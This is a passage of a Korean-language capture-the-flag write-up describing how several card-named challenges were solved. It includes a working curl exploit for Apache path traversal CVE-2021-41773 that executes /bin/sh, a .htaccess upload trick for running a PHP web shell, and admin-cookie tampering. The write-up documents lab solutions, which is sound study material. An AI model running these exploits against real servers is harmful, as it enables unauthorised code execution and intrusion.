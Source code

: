 정말로 당황스러운 문제가 아닐 수 없다... 이 문제 때문에 2등, 3등을 놓쳤다니, 아직도 화가 나는건 사실이다 :(

----

## 8 of Clubs

> Solved by **sickcodes** from **PostalTimes**

20123/tcp로 ssh를 이용하여 접근할 수 있다. `encrypt_flag.py`와 `encrypted_flag` 파일이 존재한다. `encrypt_flag.py` 42번줄의 `return fernet.encrypt(file)`을 `return fernet..decrypt()`로 수정한 후 다음과 같이 문제를 해결할 수 있었다:

```
$ python encrypt_flag.py encrypted_flag out --debug
$ file out
out: PNG image data, 500 x 700, 8-bit/color RGBA, non-interlaced
```

----

## 9 of Diamonds

> Solved by **Jaehon Jang** from **STLCTF**

8080/tcp로 http를 이용하여 접근할 수 있다. admin cookie를 변조하여 문제를 해결할 수 있었다.

----

## 9 of Spades

> Solved by **timwr** from **PostalTimes**

20055/tcp로 http를 이용하여 접근할 수 있다. 파일 업로드를 할 수 있는데, 많은 필터링이 존재한다. 하지만 `.htaccess` 파일을 업로드하여 `.htm` 파일이 php 실행이 가능하도록 수정한 후, `.htm` 웹쉘을 업로드하여 문제를 해결할 수 있었다.

```
AddType application/x-httpd-php .html .htm
```

----

## 10 of Clubs

> Solved by **Dohyun Kim (@d0now)** from **STLCTF**

12380/tcp에 http로 접근이 가능하다. http 버전이 `CVE-2021-41773`에 취약하여 이를 이용하여 RCE를 할 수 있었다.

```
$ curl --path-as-is -v -X POST 'http://localhost:31337/cgi-bin/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/bin/sh' -d "echo;cat /secret/safe/flag.png" -o /tmp/flag.png
```

----

## Jack of Hearts

> Solved by **Seokchan Yoon (@ch4n3)** from **STLCTF**
